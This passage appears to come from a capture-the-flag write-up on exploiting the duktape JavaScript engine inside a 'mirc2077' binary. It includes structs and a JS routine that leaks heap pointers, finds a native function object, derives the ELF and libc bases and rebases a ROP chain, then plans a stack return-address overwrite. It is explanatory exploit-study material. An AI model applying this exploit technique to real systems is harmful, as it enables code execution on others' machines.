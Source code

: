 To understand the next part, one should know that all duktape objects starts with a `duk_hobject` struct that contains a `duk_heaphdr` struct.
``` c
struct duk_heaphdr {
  duk_uint32_t h_flags;
  duk_size_t h_refcount;
  duk_heaphdr *h_next;
  duk_heaphdr *h_prev;
  ...
```
The `duk_heaphdr` contains a linked-list e.g. `duk_heaphdr->h_next` that can be used to traverse all the allocated duktape objects. We can leak the `h_next` and `h_prev` pointers from our `duk_hbuffer` object. These can then be used to find objects of interest via their `duk_heaphdr->h_flags` magic value.

One object of interest is the `duk_hnatfunc`. In these objects there is a function pointer to a native c-function. I.e. `duk_hnatfunc->func` will contain a pointer to the mirc2007 binary. In my case, performance.now() would be my first hit when traversing for this type of object.
```c
struct duk_hnatfunc {
  duk_hobject obj;
  duk_c_function func; /* mirc2077 leak */
  duk_int16_t nargs;
  duk_int16_t magic;
  ...
```

The following JS code will find the `performance.now()` native function object and from that, leak libc and rebase the ROP-chain that is used later on.
```js
this.leak_libc = function(addr) {
  addr = this.find_native_func(addr);
  if(addr)
    elf_base = this.find_elf(addr);
  if(elf_base)
  {
    this.elf = d2i(elf_base.asDouble());
    elf_base.assignAdd(elf_base, this.got_offset);
    this.libc = this.read64i(elf_base);
    this.libc.assignSub(this.libc, this.libc_offset);
    log("[+] Found libc base: " + this.libc);
    this.rebase();
    return this.libc;
  }
  return 0;
};
``` 
### Get code-exec and pivot to shellcode
At this point we could overwrite the `duk_hnatfunc->func` for RIP-control. However, controlling the arguments is not as easy due to how duktape passes the arguments via it's context-pointer.

Another option is to leak the `environ` pointer from libc. This points to the current stack of the process. Walk the stack for a target return-address and overwrite it with a ROP-chain. I chose `<duk_eval_raw+110> ` as it will be hit after interpreting the Javascript.
